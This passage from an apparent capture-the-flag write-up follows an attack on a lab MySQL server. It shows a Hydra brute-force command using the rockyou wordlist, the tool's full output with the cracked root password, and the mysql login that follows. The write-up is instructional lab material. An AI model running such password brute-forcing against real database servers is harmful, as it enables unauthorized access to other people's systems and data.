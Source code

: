 Visiting the MySQL server port in our browser returns the above. This intial enumeration could also have been achieved via tools like netcat. We note that the contents of the  message displayed match nmap's service version identification of `MySQL 8.0.28-0ubuntu0.20.04.3`.

## Exploitation
While we haven't come across any immediate evidence to confirm this, our CTF experience and instincts tell us that it will be worth our while to attempt logging in with default and/or commonly used credentials. [MySQL's default user configuration](https://dev.mysql.com/doc/refman/8.0/en/default-privileges.html) uses `root` as the username, with no password. While we aren't quite *that* lucky, our initial brute-force efforts yield the correct password.

### Hydra
`hydra -f -t 4 -V -l root -P /usr/share/wordlists/rockyou.txt <target-ip>mysql`
```
$ hydra -f -t 4 -V -l root -P /usr/share/wordlists/rockyou.txt <target-ip>mysql | sudo tee hydra-mysql.txt
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-08-03 13:01:07
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking mysql://10.10.46.5:3306/
[ATTEMPT] target <target-ip>- login "root" - pass "123456" - 1 of 14344399 [child 0] (0/0)
[ATTEMPT] target <target-ip>- login "root" - pass "12345" - 2 of 14344399 [child 1] (0/0)
[ATTEMPT] target <target-ip>- login "root" - pass "123456789" - 3 of 14344399 [child 2] (0/0)
[ATTEMPT] target <target-ip>- login "root" - pass "password" - 4 of 14344399 [child 3] (0/0)
[ATTEMPT] target <target-ip>- login "root" - pass "iloveyou" - 5 of 14344399 [child 1] (0/0)
[ATTEMPT] target <target-ip>- login "root" - pass "princess" - 6 of 14344399 [child 0] (0/0)
[ATTEMPT] target <target-ip>- login "root" - pass "1234567" - 7 of 14344399 [child 2] (0/0)
[ATTEMPT] target <target-ip>- login "root" - pass "r-----u" - 8 of 14344399 [child 3] (0/0)
[ATTEMPT] target <target-ip>- login "root" - pass "12345678" - 9 of 14344399 [child 1] (0/0)
[ATTEMPT] target <target-ip>- login "root" - pass "abc123" - 10 of 14344399 [child 0] (0/0)
[3306][mysql] host: <target-ip>👍  login: root   password: r-----u👍
[STATUS] attack finished for <target-ip>(valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-08-03 13:01:10

```

## Enumeration - MySQL
Now that we have valid credentials for accessing the MySQL database, let's see what we can find...

### MySQL
`mysql -h <target-ip>-u root -p `
```
$ mysql -h <target-ip>-u root -p
Enter password: r-----u

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 31
Server version: 8.0.28-0ubuntu0.20.04.3 (Ubuntu)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]> 

```
